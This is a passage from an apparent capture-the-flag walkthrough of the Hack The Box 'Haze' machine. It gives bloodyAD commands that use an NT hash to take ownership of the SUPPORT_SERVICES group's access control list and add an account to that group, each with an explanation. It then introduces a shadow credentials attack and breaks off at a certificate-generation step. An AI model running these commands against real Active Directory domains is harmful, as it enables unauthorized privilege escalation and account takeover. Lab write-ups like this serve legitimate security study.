 **RUN: bloodyAD \--host \"10.10.11.61\" -d \"haze.htb\" -u
\"Haze-IT-Backup\$\" -p \":a70df6599d5eab1502b38f9c1c3fd828\" set owner
SUPPORT_SERVICES Haze-IT-Backup\$**

![](images/media/image34.png){width="6.3125in"
height="0.34097222222222223in"}

**RESULT:**

**DACL=Directonary Access Control List**

![](images/media/image35.png){width="6.29375in"
height="0.6208333333333333in"}

**EXPLANATION:**

**It connects to the Domain Controller at 10.10.11.61 using the
Haze-IT-Backup\$ account and its NT hash. It then modifies the DACL of
the Active Directory object with the Distinguished Name
CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB. The modification grants the
Haze-IT-Backup\$ security principal the FullControl permission over this
SUPPORT_SERVICES object.**

**19.3** INFO: Add yourself to the group

**RUN:** **bloodyAD \--host \"10.10.11.61\" -d \"haze.htb\" -u
\"Haze-IT-Backup\$\" -p \": a70df6599d5eab1502b38f9c1c3fd828\" add
groupMember SUPPORT_SERVICES Haze-IT-Backup\$**

![](images/media/image36.png){width="6.288888888888889in"
height="0.3125in"}

**If that runs into an ERROR:**

**REPEAT: 15.6, 15.7, 19.1, 19.2**

**///\-\--SHADOW
CREDENTIAL\-\--///////////////////////////////////////////////////////////////////**

**EXPLANATION:**

**The attacker manipulates the msDS-KeyCredentialLink attribute of a
target user account to associate a rogue security key (controlled by the
attacker) with that account. This allows the attacker to authenticate as
that user without needing their actual password.**

**20.** INFO: **Generate certificate**
